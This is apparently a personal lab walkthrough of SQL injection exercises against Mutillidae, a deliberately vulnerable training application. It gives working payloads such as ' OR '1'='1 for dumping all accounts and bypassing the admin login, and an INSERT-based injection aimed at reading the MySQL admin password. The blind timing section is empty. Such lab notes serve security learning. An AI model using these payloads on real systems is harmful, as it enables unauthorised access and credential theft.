 # mutillidae

## A1 - Injection

### SQLi - Extract Data

#### User Info

![user info](assets/mutillidae/sqli1.png)

* the `Name` textbox can contain literally any word
* the `Password` textbox can be `' OR '1'='1`
* this will display the Username, Password and Signature of all the users in the db
* implies that the sql query is something similar to `SELECT * FROM owasp10.accounts WHERE Username='$USERNAME' AND Password='$PASSWORD'`
* so the bypassed query will look like `SELECT * FROM owasp10.accounts WHERE Username='abc' AND Password='' OR '1'='1'`
* this will be equivalent to `SELECT * FROM owasp10.accounts`

### SQLi - Bypass Authentication

#### Login

* to exploit this and login as `admin`, the `Name` can be `admin`
* the `Password` field can be `' OR '1'='1`
* a non-null return value to the sql query (bypass too) which must be similar to [User Info](#user-info) will be expected

### SQLi - Insert Injection

#### Register

judging the information asked or by breaking the sql query with just `'` as the username, we can come to know that the actual sql query is

```sql
INSERT INTO accounts (username, password, mysignature) VALUES ('$USERNAME', '$PASSWORD', '$SIGNATURE')
```

since none of the fields are compulsory, we inject sql in just the username textbox to get the mysql admin password with `abc', 'abc', (SELECT password FROM mysql.user WHERE user='admin'))#`

while the injected sql query got executed, i could not see the mysql admin password and i'm not sure why :-(

### Blind SQL via Timing

#### Login

#### User Info
